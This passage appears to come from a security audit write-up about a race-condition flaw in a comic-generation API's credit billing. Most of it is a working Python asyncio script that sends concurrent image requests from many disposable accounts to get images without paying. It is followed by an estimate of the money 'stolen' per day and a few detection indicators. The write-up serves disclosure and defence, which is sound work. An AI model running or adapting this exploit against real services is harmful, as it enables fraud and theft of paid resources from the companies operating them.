 #### Attack Automation
```python
import asyncio
import aiohttp
import time

async def exploit_race_condition(session, token):
    """Launch 100 concurrent requests"""
    tasks = []
    for i in range(100):
        task = session.post(
            'https://api.example.com/comics/generate-image',
            headers={'Authorization': f'Bearer {token}'},
            json={'panelDescription': f'Race {i}'}
        )
        tasks.append(task)
    
    # Launch all at exactly the same microsecond
    results = await asyncio.gather(*tasks, return_exceptions=True)
    
    successful = sum(1 for r in results if not isinstance(r, Exception))
    return successful

async def main():
    # Create 10 accounts, fund each with 1 credit
    accounts = create_disposable_accounts(10)
    
    async with aiohttp.ClientSession() as session:
        total_free_images = 0
        for account in accounts:
            free_images = await exploit_race_condition(session, account['token'])
            total_free_images += free_images
            print(f"Account {account['email']}: {free_images} free images")
        
        print(f"Total free images generated: {total_free_images}")
        print(f"Cost to company: ${total_free_images * 0.040}")

asyncio.run(main())
```

#### Financial Impact
```
Cost per DALL-E image: $0.040
Successful exploit rate: 50% (5 of 10 requests succeed)
Per account: 1 credit paid, 5 images generated = $0.16 stolen
100 accounts: $16 stolen per round
Repeated exploitation: $160/hour, $3,840/day
```

#### Detection Indicators
- Multiple image generation requests within milliseconds
- User balance goes negative
- Timestamp clustering of requests
- Same user_id, different request_ids

---